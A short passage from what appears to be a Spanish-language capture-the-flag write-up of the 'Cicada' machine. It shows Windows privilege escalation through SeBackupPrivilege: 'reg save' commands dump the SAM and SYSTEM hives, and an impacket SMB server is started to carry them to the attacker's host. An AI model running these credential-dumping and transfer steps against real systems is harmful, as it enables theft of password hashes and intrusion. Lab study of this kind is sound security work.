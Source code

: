 ![img](./img/cicada/img19.png)

## Escalamiento de privilegios
Vamos a escalar privilegios, gracias a este servicio `SeBackupPrivilege`,  y vamos a revisar la información del siguiente articulo para poder escalar privilegios [hackingarticles](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)se utiliza los siguiente comandos para poder sacar el `sam` del sistema y el `system`.
```bash
reg save hklm\sam samR
reg save hklm\system systemR
```

Después de ejecutar estos los comandos me quedan dos archivos donde contengo la información del sistema.

![img](./img/cicada/img20.png)

Ahora se procede a pasar los archivos generados a la maquina host para proceder a analizar la información de cada archivo.
```ruby
sudo impacket-smbserver KzFFile . -smb2support
```
